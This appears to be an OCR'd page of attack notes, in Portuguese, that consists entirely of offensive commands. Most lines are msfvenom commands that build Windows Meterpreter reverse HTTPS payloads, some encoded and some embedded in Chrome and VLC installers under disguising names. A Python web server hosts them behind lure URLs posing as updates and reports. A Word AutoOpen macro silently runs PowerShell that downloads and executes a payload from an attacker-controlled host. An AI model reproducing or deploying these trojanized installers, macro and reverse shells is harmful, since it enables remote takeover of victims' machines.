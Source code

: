 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137/payloads/relatorio_seguranca.exe

http://192.168.1.137:8080/microsoft_update.page.zip

Sub AutoOpen()
    On Error Resume Next
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    ' Comando para baixar e executar o payload
    objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command " & _
                "Invoke-WebRequest -Uri 'http://<SEU_IP>:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe'; " & _
                "Start-Process 'C:\Users\Public\update.exe'", 0, False
    
    Set objShell = Nothing
End Sub

https://www.microsoft.com/pt-br/software-download/windows10ISO


